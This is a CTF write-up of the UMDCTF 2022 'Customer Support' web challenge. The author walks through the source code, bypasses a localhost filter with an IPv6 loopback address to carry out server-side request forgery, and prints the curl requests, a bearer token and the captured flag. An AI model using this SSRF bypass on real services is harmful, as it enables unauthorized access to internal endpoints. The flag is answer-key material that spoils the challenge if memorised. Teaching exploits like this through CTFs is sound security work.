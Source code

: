 ```yaml
---
title: "UMDCTF: Customer Support"
date: 2022-03-06T19:09:57-05:00
image: /UMDCTF/UMDCTF.png
---
```




![](/UMDCTF/CustomerSupport/Pasted%20image%2020220306144115.png)

For this challenge we were given 
![](/UMDCTF/CustomerSupport/Pasted%20image%2020220306144230.png)
So I stared out by opening the Dockerfile 
![](/UMDCTF/CustomerSupport/Pasted%20image%2020220306144325.png)
In the docker file we can see the starting command is ```npm run startall```
![](/UMDCTF/CustomerSupport/Pasted%20image%2020220306144449.png)
Looking at the package.json we can see two service being started with start all script.

![](/UMDCTF/CustomerSupport/Pasted%20image%2020220306144621.png)
In app.js inside microservice we can see two path that returns token.
![](/UMDCTF/CustomerSupport/Pasted%20image%2020220306144728.png)
This microservice is running in port 3001. The first thing that I tried to do was open that port, but i couldn't access it. 
*Time for more code analysis*
![](/UMDCTF/CustomerSupport/Pasted%20image%2020220306145052.png)
Here I can see that there's some request being sent, and it's using our input to send the request.
![](/UMDCTF/CustomerSupport/Pasted%20image%2020220306145540.png)
There is a filter that checks for any 'localhost', '127.0.0.1' or '0.0.0.0' in the message body. All we need to do now is figure out a way to access localhost using something that's not filtered. In this case we can use `::1/28`, so if we try to access `http://::1/28/auth` 
```bash
curl -X POST https://customer-support-p558t.ondigitalocean.app/api/contact -H 'Content-Type: application/json' -d '{"name":"ts","email":"test@test.com","subject":"test","message":"http://::1/28/auth"}'
```

![](/UMDCTF/CustomerSupport/Pasted%20image%2020220306150537.png)
This will return a token. 

What can we do with the token?
![](/UMDCTF/CustomerSupport/Pasted%20image%2020220306150617.png)
there's an api that will take the token and return the flag.
We need to pass the token in cookie Authorization. 

```bash
curl --cookie 'Authorization=Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IlVNRENURiIsImIiOiJUb2RheSBJIHdpbGwgbGl2ZSBpbiB0aGUgbW9tZW50LCB1bmxlc3MgaXQgaXMgdW5wbGVhc2FudCwgaW4gd2hpY2ggY2FzZSwgSSB3aWxsIGVhdCIsImlhdCI6MTcxNjIzOTAyMn0.7SoLIpd9dL9d3Lx84vbAqlLCE5rR3fWqN8ZWLx41QDE' https://customer-support-p558t.ondigitalocean.app/api/auth
```
![](/UMDCTF/CustomerSupport/Pasted%20image%2020220306151214.png)
This gives me the flag

```
UMDCTF{I_b3t_th@t_c00kie_t4sted_g00d_d!dnt_it!U4L_p4rs1ng_suck5}
```
